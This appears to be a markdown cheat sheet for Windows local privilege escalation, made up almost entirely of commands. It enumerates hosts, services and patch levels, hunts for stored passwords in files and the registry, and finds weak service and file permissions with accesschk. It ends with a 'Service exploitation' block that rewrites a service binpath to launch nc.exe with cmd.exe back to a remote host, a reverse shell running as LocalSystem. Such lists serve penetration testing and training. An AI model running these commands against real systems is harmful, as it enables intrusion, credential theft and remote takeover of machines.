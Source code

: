 **system info**
 
`systeminfo`

**Get the hostname and username (if available)**
```
hostname
echo %username%
Get users
net users
net user [username]
```

### Networking 
```
ipconfig /all

 Printer?
route print
```


**Active network connections**
`netstat -ano`

**Firewall(Win XP SP2+ only)**
```
netsh firewall show state
netsh firewall show config
```

**Scheduled tasks**

` schtasks /query /fo LIST /v `

**Running processes to started services**
```
tasklist /SVC
net start
```

**Driver**
`DRIVERQUERY`

*WMIC (Win 7/8 and XP requires admin)*

`wmic /?`


**WMIC: check patch level**
`wmic qfe get Caption,Description,HotFixID,InstalledOn`


**AlwaysInstallElevated msi package**
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


**some more**

```
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

```

**Service permissions**
```
sc query
sc qc [service_name]
```


**Accesschk**
```
accesschk.exe /accepteula (to escape the prompt)
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * 
accesschk.exe -ucqv [service_name]
```

**Find all weak folder permissions per drive.**
```
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
```


**Find all weak file permissions per drive.**
```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Service exploitation**

```
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```
